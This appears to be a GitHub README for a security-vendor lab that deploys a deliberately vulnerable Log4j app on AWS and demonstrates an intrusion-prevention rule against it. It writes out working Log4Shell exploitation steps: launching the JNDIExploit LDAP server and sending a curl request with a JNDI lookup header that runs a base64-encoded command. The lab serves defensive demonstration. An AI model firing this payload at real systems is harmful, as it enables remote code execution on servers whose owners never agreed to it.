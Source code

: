 # Cloud One - Workload Security Log4Shell
This repo contains a quick deployment template to showcase CVE-2021-44228 LOG4SHELL exploit and Workload Security Intrusion Prevention

## Deploy CloudFormation Template

Parameters to Define:
- **KeyPair**: Name of a current Key Pair
- **IPforSSH**: restrict SSH access to your IP. Default is 0.0.0.0/0

[![Launch Stack](https://cdn.rawgit.com/buildkite/cloudformation-launch-stack-button-svg/master/launch-stack.svg)](https://aws-workshop-c1as-cft-templates.s3.amazonaws.com/c1-ws-log4shell.yaml)

![architecture](images/architecture.png)

---

## After CloudFormation Template Deployment

## 1. SSH into EC2 instance(Shell A)
    ```bash
    sudo su
    <Deploy Workload Security Agent deployment script with Linux Policy attached.>
    ```
    ![deployment_script](images/deploymentscript.png)

## 2. In Cloud One-WS: Assign IPS rule for CVE-2021-44228 to linux machine
    - IPS rule number: **1011242**
    - Assign rule and change to **Detect Only** for now.
    - Accept all rule dependencies.
    
    ![ips_rule](images/ipsrule.png)
    
    ![detect_only](images/detectonly.png)

---

## 3. Start docker app(Shell A)

```bash
cd log4shell-vulnerable-app
docker run -p 8080:8080 --name vulnerable-app vulnerable-app
```
![docker_run](images/dockerstart.png)

---

## 4. Open Second SSH session(Shell B) and run command to create LDAP server
* [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) provided by feihong-cs before it was removed from GitHub.
```bash
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
```

## 5. Run Exploit
- Open new SSH session(Shell C)

```bash
# will execute 'touch /tmp/pwned'
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
```
Notice the output(Shell B) of JNDIExploit, showing it has sent the malicious LDAP response and served the second-stage payload:

![shell-b](images/shell-b.png)

---

## 6. Confirm RCE was successful with the creation of pwned.txt file inside the running container's /tmp directory. 
- Using Shell C

```bash
docker exec vulnerable-app ls /tmp
```
![shell-c](images/shell-c.png)

---

## Repeat attack this time with IPS rule set to **Prevent**


<hr>

## Reference
Thank you [christophetd](https://github.com/christophetd/log4shell-vulnerable-app) for providing the vulnerable Spring Boot web application.